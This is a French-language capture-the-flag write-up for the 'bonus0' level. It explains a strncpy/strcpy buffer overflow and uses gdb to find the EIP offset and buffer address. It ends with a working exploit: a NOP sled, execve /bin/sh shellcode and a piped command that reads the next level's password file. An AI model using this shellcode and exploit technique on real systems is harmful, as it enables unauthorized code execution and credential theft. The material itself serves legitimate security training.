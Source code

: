 bonus0:
Il y a 3 fonctions, main, pp et p. Pas de gateway vers un shell admin donc a priori on va devoir run notre propre shellcode.
La faille ici est l'usage de strncpy puis strcpy. strncpy est "sécurisé", le nombre de caractères est précisé, mais si la string copiée dépasse le nombre, elle est copiée sans qu'un \0 soit ajouté à la fin. Ensuite, strcpy est utilisé, et cette fonction s'arrête uniquement quand elle rencontre un \0. Donc si on dépasse le nombre de caractères que strncpy utilise (20), lorsque strcpy est utilisé dans ce bout de code :

    p(a," - ");
    p(b," - ");
    strcpy(string,a);

Il va déborder sur b, et écrire plus que prévu. Le buffer dans le main fait 42
   0x080485aa <+6>:     sub    $0x40,%esp
   0x080485ad <+9>:     lea    0x16(%esp),%eax
0x40 - 0x16 = 64 - 22 = 42

Logique vu que a[20] + espace + b[20] + EOL = 42 caractères. Donc on va pouvoir l'overflow parce qu'on va se retrouver avec a + b + espace + b. Avec cet overflow, on pourra override EIP pour le faire pointer vers notre shellcode, qu'on va stocker dans notre grand buffer de 4096.
 
On met 21 caractères en 1er argument et on utilise un générateur de pattern avec le 2ème pour trouver l'offset
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
(gdb) info frame
Stack level 0, frame at 0xbffff6c4:
 eip = 0x41336141; saved eip 0x61413461
 called by frame at 0xbffff6c8
 Arglist at 0xbffff6bc, args:
 Locals at 0xbffff6bc, Previous frame's sp is 0xbffff6c4
 Saved registers:
  eip at 0xbffff6c0

L'offset est à 9.

Il ne reste plus qu'à trouver l'adresse du buffer à 4096 pour pouvoir faire pointer EIP dessus.
On utilise gdb pour mettre un breakpoint juste après l'appel à la fonction read, et on cherche dans $esp ou apparaissent les 41

disass p
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
=> 0x080484e6 <+50>:    movl   $0xa,0x4(%esp)
b *p+50
r
On entre plein de AAAAAA
x/100x $esp
(gdb) x/100x $esp
0xbfffe660:     0x00000000      0xbfffe670      0x00001000      0x00000000
0xbfffe670:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffe680:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffe690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffe6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffe6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffe6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffe6d0:     0x0000000a      0x00000000      0x00000000      0x00000000
0xbfffe6e0:     0x00000000      0x00000000      0x00000000      0x00000000
[...]
L'adresse du buffer est 0xbfffe670 (attention gdb peut faire varier l'adresse de +16 mais dans notre cas on a de la marge de manoeuvre pour atterir dans la nopsled)
On prend une valeur plus grande pour être sûr d'atterir dans la nopsled, +100 par exemple : BFFFE6D4


Argument 1 : python -c "print('\x90' * 500 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"
On a une large NOPsled suivie de notre shellcode

Argument 2 : python -c "print('A' * 9 + '\xd4\xe6\xff\xbf' + 'A' * 7)"
A * 9 pour que notre adresse custom override l'emplacement de EIP et A * 7 pour completer afin que la string fasse bien 20 caractères pour overflow.

(python -c 'print "\x90" * 500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xd4\xe6\xff\xbf" + "A" * 7'; echo "cat /home/user/bonus1/.pass") | ./bonus0
